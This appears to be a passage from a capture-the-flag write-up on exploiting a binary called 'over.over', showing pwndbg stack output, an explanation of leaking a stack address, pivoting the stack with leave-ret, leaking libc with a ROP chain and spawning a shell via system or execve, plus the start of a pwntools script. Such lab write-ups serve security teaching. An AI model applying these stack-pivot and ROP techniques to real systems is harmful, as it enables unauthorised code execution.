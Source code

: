 ```C

───────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────

 ► f 0           4006b9

   f 1           400715

   f 2     7ff756de02b1 __libc_start_main+241

Breakpoint *0x4006B9

pwndbg> stack 15

00:0000│ rax rdi rsi rsp  0x7ffceaf11160 ◂— 0x3030303030303030 ('00000000')

... ↓

0a:0050│ rbp              0x7ffceaf111b0 —▸ 0x7ffceaf111d0 —▸ 0x400730 ◂— push   r15

0b:0058│                  0x7ffceaf111b8 —▸ 0x400715 ◂— test   eax, eax

0c:0060│                  0x7ffceaf111c0 —▸ 0x7ffceaf112b8 —▸ 0x7ffceaf133db ◂— './over.over'

0d:0068│                  0x7ffceaf111c8 ◂— 0x100000000

0e:0070│                  0x7ffceaf111d0 —▸ 0x400730 ◂— push   r15

pwndbg> distance 0x7ffceaf111d0 0x7ffceaf11160

0x7ffceaf111d0->0x7ffceaf11160 is -0x70 bytes (-0xe words)

```



After leaking the stack address, we can control the program flow by controlling rbp as the address on the stack (such as 0x7ffceaf11160) and ret addr as the address of leave ret.


For example, we can fill in the rop chain of the leak libc at 0x7ffceaf11160 + 0x8 and control it back to the `sub_400676` function to leak libc.
​	 

Then on the next use, you can use the rop to execute `system(&quot;/bin/sh&quot;)` or `execve(&quot;/bin/sh&quot;, 0, 0)` to get the shell. This question is because the input is long enough. , we can arrange the use chain of `execve(&quot;/bin/sh&quot;, 0, 0)`, this method is more secure (`system(&quot;/bin/sh&quot;)` may be invalidated due to env destruction) , but because the structure of the stack changes during the process, some key offsets need to be determined by debugging.


#### exp

```python

from pwn import *

context.binary = "./over.over"



def DEBUG(cmd):

    raw_input("DEBUG: ")

    gdb.attach(io, cmd)

```